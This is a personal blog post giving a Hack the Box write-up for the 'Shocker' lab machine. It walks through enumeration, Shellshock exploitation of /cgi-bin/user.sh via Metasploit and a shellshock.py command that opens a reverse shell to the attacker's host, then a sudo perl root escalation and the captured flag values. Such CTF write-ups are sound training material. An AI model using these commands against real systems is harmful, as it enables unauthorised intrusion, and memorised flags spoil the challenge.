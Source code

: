 ```yaml
---
layout: post
status: publish
published: true
permalink: shocker
title: 'Shocker box on Hack the Box Write up'
author: Jean-Michel Frouin
author_login: jmfrouin
author_email: jm@frouin.me
author_url: http://frouin.me
date: '2020-04-10 09:45:49 +0100'
date_gmt: '2013-04-10 08:45:49 +0100'
categories:
- htb
- pentest
- unix
comments: []
---
```

# General infos

OS: 	Linux
Difficulty: 	Easy
Points: 	20
Release: 	30 Sep 2017
IP: 	10.10.10.56

![MindMap](Shocker.png "Shocker")

## Enumeration

### Ports

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

### Web

- Dir found: / - 200
- Dir found: /cgi-bin/ - 403
- Dir found: /icons/ - 403
- File found: /cgi-bin/user.sh - 200
- Dir found: /icons/small/ - 403

## Exploitation

### Using MetaSploit

- multi/http/apache_mod_cgi_bash_env_exec
- TARGETURI : /cgi-bin/useer.sh

### Manual exploitation 

```
./shellshock.py payload=reverse rhost=10.10.10.56
lhost=10.10.14.36 lport=4444 pages=/cgi-bin/user.sh
```

## User Flag

### Location : /home/shelly/user.txt

```
2ec24e11320026d1e70ff3e16695b233
```

## Priv Esc

```
sudo /usr/bin/perl -e 'system("/bin/bash")'
```

## Root Flag

Location : /root/root.txt
 
```
52c2715605d70c7619030560dc1ca467
```
